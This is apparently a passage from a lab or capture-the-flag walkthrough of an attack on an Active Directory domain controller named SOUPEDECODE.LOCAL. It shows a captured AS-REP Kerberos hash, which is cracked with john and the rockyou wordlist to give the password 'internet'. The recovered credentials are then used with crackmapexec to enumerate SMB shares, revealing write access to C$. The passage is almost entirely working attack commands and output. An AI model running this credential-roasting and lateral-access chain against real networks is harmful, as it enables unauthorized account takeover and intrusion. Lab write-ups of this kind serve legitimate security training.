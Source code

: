 ```
$krb5asrep$23$zximena448@SOUPEDECODE.LOCAL:dc54892842ace6ea9ae0f8dc3059e617$f1bab3f0b14d69f1e689f102399a39b0855f16d9f36dfd6a9659d25f0f8484e05592e1d921d90f53dcd80c9cf406b8cee2610214b7350f7ad1ecead5e62872ca83a6044d10c5177e6899e8ab98b3ee861eca740c9c33e8f7efb957c391d5d996e1777cf1b3a90f28799b1ad3d66b12faf35adee855b27fae4552f17d1dbc343458b45464f9e3520fd92a01f00b60dee32f96562958896ff06cbfc2600169fb0e5883a070dee21c961e703b9dc7034fb4eb0b08af27abd3423b86b842e2014e6e3e7ea0a1c98df0f0209db963a28b7515937c1163a7279c78e6e1d3d5cd9c81d3b12527709d10469d87290514cb669cb9312e775a6e65 ←
[-] User fmike40 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User yeli41 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User knina42 doesn't have UF_DONT_REQUIRE_PREAUTH set

[...]
```

`vim ./asrep_hash.txt`:
```
$krb5asrep$23$zximena448@SOUPEDECODE.LOCAL:dc54892842ace6ea9ae0f8dc3059e617$f1bab3f0b14d69f1e689f102399a39b0855f16d9f36dfd6a9659d25f0f8484e05592e1d921d90f53dcd80c9cf406b8cee2610214b7350f7ad1ecead5e62872ca83a6044d10c5177e6899e8ab98b3ee861eca740c9c33e8f7efb957c391d5d996e1777cf1b3a90f28799b1ad3d66b12faf35adee855b27fae4552f17d1dbc343458b45464f9e3520fd92a01f00b60dee32f96562958896ff06cbfc2600169fb0e5883a070dee21c961e703b9dc7034fb4eb0b08af27abd3423b86b842e2014e6e3e7ea0a1c98df0f0209db963a28b7515937c1163a7279c78e6e1d3d5cd9c81d3b12527709d10469d87290514cb669cb9312e775a6e65
```

`john --wordlist=/usr/share/wordlists/rockyou.txt ./asrep_hash.txt`:
```
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 SSE2 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
internet         ($krb5asrep$23$zximena448@SOUPEDECODE.LOCAL) ←   
1g 0:00:00:00 DONE (2024-09-04 03:54) 33.33g/s 17066p/s 17066c/s 17066C/s angelo..letmein
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

`crackmapexec smb 192.168.56.103 -d 'SOUPEDECODE.LOCAL' -u 'zximena448' -p 'internet' --shares`:
```
SMB         192.168.56.103  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         192.168.56.103  445    DC01             [+] SOUPEDECODE.LOCAL\zximena448:internet 
SMB         192.168.56.103  445    DC01             [+] Enumerated shares
SMB         192.168.56.103  445    DC01             Share           Permissions     Remark
SMB         192.168.56.103  445    DC01             -----           -----------     ------
SMB         192.168.56.103  445    DC01             ADMIN$          READ            Remote Admin
SMB         192.168.56.103  445    DC01             C$              READ,WRITE ←     Default share ←
SMB         192.168.56.103  445    DC01             IPC$            READ            Remote IPC
SMB         192.168.56.103  445    DC01             NETLOGON        READ            Logon server share 
SMB         192.168.56.103  445    DC01             SYSVOL          READ            Logon server share
```
